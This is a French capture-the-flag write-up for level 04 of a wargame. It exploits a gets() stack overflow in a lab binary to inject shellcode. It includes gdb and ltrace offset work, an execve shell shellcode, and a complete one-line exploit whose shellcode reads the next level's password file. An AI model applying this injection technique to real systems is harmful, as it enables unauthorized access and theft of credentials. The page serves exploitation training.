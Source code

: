 # Level 04
<a href="/level05"><img align='right' width=20x height=auto src="https://cdn.onlinewebfonts.com/svg/img_68680.png"></img></a>

- Dans le child il y a un gets donc sans limite
- On recupere le offset
<pre>
$> gdb ./level04 
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA')
Starting program: /home/alarm/42/override/level04/Ressources/level04 < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA')
[----------------------------------registers-----------------------------------]
ESP: 0xffffd5a0 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
<strong>EIP: 0x71414154 ('TAAq')</strong>
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x71414154
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x71414154 in ?? ()
gdb-peda$ pattern offset TAAq
<strong>TAAq found at offset: 156</strong>
</pre>

- On recupere l'addresse de notre futur shellcode
<pre>
$> echo a | ltrace -f ./level04 1>&-
[pid 1737] \_\_libc_start_main(0x80486c8, 1, -10540, 0x8048830, 0x80488a0 <unfinished ...>
[pid 1737] signal(14, 0x0804868f)                                      = NULL
[pid 1737] alarm(60)                                                   = 0
[pid 1737] fork()                                                      = 1738
[pid 1737] wait(0xffffd59c <unfinished ...>
[pid 1738] <... fork resumed> )                                        = 0
[pid 1738] prctl(1, 1, 0, 0xf7e2fe44, 2944)                            = 0
[pid 1738] ptrace(0, 0, 0, 0, 2944)                                    = -1
[pid 1738] puts("Give me some shellcode, k")                           = 26
<strong>[pid 1738] gets(-10848, 0, 0, 0, 2944)                                 = -10848</strong>
[pid 1738] +++ exited (status 0) +++
[pid 1737] --- SIGCHLD (Child exited) ---
[pid 1737] <... wait resumed> )                                        = 1738
[pid 1737] puts("child is exiting...")                                 = 20
[pid 1737] +++ exited (status 0) +++
$> printf '%x\n' -10848
ffffffff<strong>ffffd5a0</strong>
</pre>

- Quand on met un shellcode basique avec le programme nous dit que les exec sont bloquer
```
level04@OverRide:~$ (python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (156 - 21) + struct.pack('<I', 0xffffd5a0))") | ./level04 
Give me some shellcode, k
no exec() for you
```

- Donc on crée un shellcode qui print direct le fichier .pass
<pre>
>>> pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass'))
b'jsh.pashl05/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80'
>>> len('jsh.pashl05/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80')
62
</pre>

- Assemblé cela donne cette commande
```
(python -c "import struct; print('jsh.pashl05/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80' + 'A' * (156 - 62) + struct.pack('<I', 0xffffd5a0))") | ./level04
```
